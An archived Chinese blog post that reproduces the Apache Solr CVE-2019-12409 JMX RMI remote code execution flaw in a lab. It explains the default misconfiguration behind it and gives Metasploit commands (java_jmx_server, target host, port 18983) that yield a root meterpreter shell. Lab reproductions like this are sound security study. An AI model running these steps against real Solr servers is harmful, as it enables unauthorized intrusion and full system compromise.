



# CVE-2019-12409 Apache Solr RCE 漏洞复现利用 - biiNG# - 博客园

> 原文：[`www.cnblogs.com/biing/p/13042358.html`](https://www.cnblogs.com/biing/p/13042358.html)

## 环境

靶机：ubuntu18.04

被攻击环境：Solr 8.2.0

攻击机：Kali Linux

攻击软件：metasploit framework

## 背景介绍

Apache Solr 是一个开源的搜索服务器，使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。它对外提供类似于 Web-service 的 API 接口。用户可以通过 http 请求，向搜索引擎服务器提交一定格式的 XML 文件，生成索引；也可以通过 Http Get 操作提出查找请求，并得到 XML 格式的返回结果。

## 漏洞成因

默认的配置文件 solr.in.sh 的选项**ENABLE_REMOTE_JMX_OPTS**字段值被设置为”true”，这会启用 JMX 监视服务并会在**公网**中监听一个**18983**的 RMI 端口，没有任何认证，也就是说在无需身份验证情况下，攻击者结合使用 JMX RMI 就会造成远程代码攻击。

在开放的端口上，利用 **javax.management.loading.MLet**的**getMBeansFromURL** 方法来加载一个远端恶意的 MBean，就可以造成远程代码执行了。 远端的恶意 MBean 来自于 metasploit 提供的**exploit/multi/misc/java_jmx_server**，具体的 payload 攻击载荷是 meterpreter。

## 复现与利用过程

### 安装环境

影响版本是 Apache Solr 的 8.1.1 和 8.2.0，目前官网这两个版本已经不直接提供了。8.2.0 的下载地址是：[`archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip，`](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip%EF%BC%8C) 其他版本也可以通过修改 URL 的办法来查询。

下载：

`wget http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip`

启动一个 solr 的样例服务（需要 root 权限）：

```
unzip solr-8.2.0.zip
cd solr-8.2.0/bin
./solr -e dih -force 
```





metasploit 直接使用 kali 里的。

### 漏洞利用

在 kali 上使用 `msfconsole`命令进入，执行以下命令。

```
use exploit/multi/misc/java_jmx_server
show options
set RHOSTS 192.168.108.156
set RPORT 18983
run 
```

接下来等待进入 meterpreter 的 shell，就说明已经成功登陆并渗透了。



通过 getuid 命令我们可以看到当前获取到的是**root 权限。**